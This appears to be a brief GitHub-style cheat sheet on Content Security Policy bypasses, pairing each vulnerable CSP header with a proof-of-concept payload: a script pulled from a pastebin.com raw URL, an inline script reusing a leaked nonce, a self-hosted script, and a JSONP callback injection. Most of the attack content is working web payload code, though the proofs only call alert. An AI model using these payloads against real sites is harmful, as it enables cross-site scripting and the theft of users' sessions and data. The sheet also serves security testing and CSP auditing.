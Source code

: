 # Content Security Policy (CSP) Bypass

## Pastebin CSP
Vulnerable:
```http
Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
```
Detail error:
https://pastebin.com seems to be an valid CSP.

POC:
```js
<script src="https://pastebin.com/raw/R570EE00"></script>
```

## Invalid CSP Keyword
Vulnerable:
```http
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=
```
Detail error:
nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA= seems to be an invalid CSP keyword.

POC:
```js
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```

## SELF
Vulnerable:
```js
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=
Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
```
Detail error:
'self' can be problematic if you host JSONP, Angular or user uploaded files.

POC:
```js
poc.js:
alert(document.domain);

<script src="poc.js"></script>
```

## Self-insecure JSONP implementation
Vulnerable:
```js
Content-Security-Policy: script-src 'self';
```
Detail error:
'self' can be problematic if you host JSONP

POC:
http://localhost/vulnerabilities/csp/source/jsonp.php?callback=alert(document.domain)

## BESTTT :)
* https://csp-evaluator.withgoogle.com/
* https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques
